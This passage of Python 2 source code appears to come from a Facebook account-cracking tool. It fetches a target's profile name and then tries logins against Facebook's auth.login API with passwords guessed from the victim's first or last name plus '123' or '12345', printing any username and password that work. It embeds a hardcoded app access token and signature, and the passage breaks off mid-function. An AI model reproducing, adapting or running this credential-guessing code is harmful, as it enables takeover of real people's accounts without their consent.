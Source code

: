 		mkdir('\033[1;91m[✺] \033[1;92mWait a minute \033[1;97m...')
		r = requests.get("https://graph.facebook.com/"+id+"?access_token="+fb_token)
		a = json.loads(r.text)
		print '\033[1;91m[➹] \033[1;92mName\033[1;97m : '+a['name']
		mkdir('\033[1;91m[+] \033[1;92mCheck \033[1;97m...')
		time.sleep(2)
		mkdir('\033[1;91m[+] \033[1;92mOpen password \033[1;97m...')
		time.sleep(2)
		print 42*"\033[1;97m═"
		pz1 = a['first_name']+'123'
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		y = json.load(data)
		if 'access_token' in y:
			print "\033[1;91m[+] \033[1;92mFound"
			print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
			print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
			print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz1
			raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
			menu_hack()
		else:
			if 'www.facebook.com' in y["error_msg"]:
				print "\033[1;91m[+] \033[1;92mFound"
				print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
				print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
				print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
				print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz1
				raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
				menu_hack()
			else:
				pz2 = a['first_name'] + '12345'
				data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
				y = json.load(data)
				if 'access_token' in y:
					print "\033[1;91m[+] \033[1;92mFound"
					print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
					print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
					print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz2
					raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
					menu_hack()
				else:
					if 'www.facebook.com' in y["error_msg"]:
						print "\033[1;91m[+] \033[1;92mFound"
						print "\033[1;91m[!] \033[1;93mAccount Checkpoint"
						print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
						print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
						print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz2
						raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")
						menu_hack()
					else:
						pz3 = a['last_name'] + '123'
						data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pz3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
						y = json.load(data)
						if 'access_token' in y:
							print "\033[1;91m[+] \033[1;92mFound"
							print "\033[1;91m[\033[1;96m✓\033[1;91m] \033[1;92mName\033[1;97m     : "+a['name']
							print "\033[1;91m[➹] \033[1;92mUsername\033[1;97m : "+id
							print "\033[1;91m[➹] \033[1;92mPassword\033[1;97m : "+pz3
							raw_input("\n\033[1;91m[ \033[1;97mBack \033[1;91m]")